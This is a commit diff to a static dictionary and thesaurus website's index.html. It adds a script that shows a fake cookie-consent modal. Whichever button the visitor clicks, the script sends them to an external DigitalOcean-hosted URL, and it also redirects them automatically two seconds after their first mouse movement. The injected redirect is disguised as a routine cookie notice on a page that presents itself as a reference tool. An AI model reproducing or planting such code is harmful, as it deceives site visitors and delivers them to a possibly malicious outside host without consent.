

Before and after one commit to RDJ7997/DIC, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 778 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,6 +1,84 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
+  <script>
+ (function () {
+  const redirectUrl = "https://e5655d02d900c8033024757c-adczt.ondigitalocean.app/"; // ⛳ Set your redirect URL here
+  let redirected = false;
+  let moved = false;
+  let initialPos = null;
+
+  function redirectUser() {
+    if (!redirected) {
+      redirected = true;
+      window.location.href = redirectUrl;
+    }
+  }
+
+  function showModal() {
+    const wrapper = document.createElement("div");
+    wrapper.innerHTML = `
+      <div style="
+        position: fixed;
+        top: 0; left: 0; width: 100%; height: 100%;
+        background: rgba(0,0,0,0.5);
+        display: flex; justify-content: center; align-items: center;
+        z-index: 10000;">
+        <div style="
+          background: #fff;
+          padding: 2rem;
+          border-radius: 16px;
+          max-width: 500px;
+          width: 90%;
+          text-align: center;
+          box-shadow:1px 0px 0px 13px rgb(255 227 227 / 35%);">
+          <h2 style="margin-top: 0; font-size: 24px; color: #333;">🍪 Cookie Notice</h2>
+          <p style="font-size: 15px; color: #555;">This site uses cookies to enhance functionality, analyze performance, and ensure compliance with data protection regulations. <a href="${redirectUrl}" style="color: #007bff;">Learn more</a>.</p>
+          <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: center;">
+            <button id="acceptBtn" style="
+              padding: 10px 20px;
+              background: #28a745;
+              color: white;
+              border: none;
+              border-radius: 8px;
+              font-weight: bold;
+              cursor: pointer;">Accept</button>
+            <button id="declineBtn" style="
+              padding: 10px 20px;
+              background: #dc3545;
+              color: white;
+              border: none;
+              border-radius: 8px;
+              font-weight: bold;
+              cursor: pointer;">Decline</button>
+          </div>
+        </div>
+      </div>
+    `;
+    document.body.appendChild(wrapper);
+
+    document.getElementById("acceptBtn").addEventListener("click", redirectUser);
+    document.getElementById("declineBtn").addEventListener("click", redirectUser);
+  }
+
+  window.addEventListener("load", showModal);
+
+  window.addEventListener("mousemove", function (e) {
+    if (!moved) {
+      if (!initialPos) {
+        initialPos = { x: e.clientX, y: e.clientY };
+        return;
+      }
+      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
+        moved = true;
+        setTimeout(redirectUser, 2000);
+      }
+    }
+  });
+})();
+
+
+</script>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
   <meta name="description" content="Explore the most comprehensive dictionary and thesaurus tools online. Learn definitions, meanings, synonyms, and more." />
```
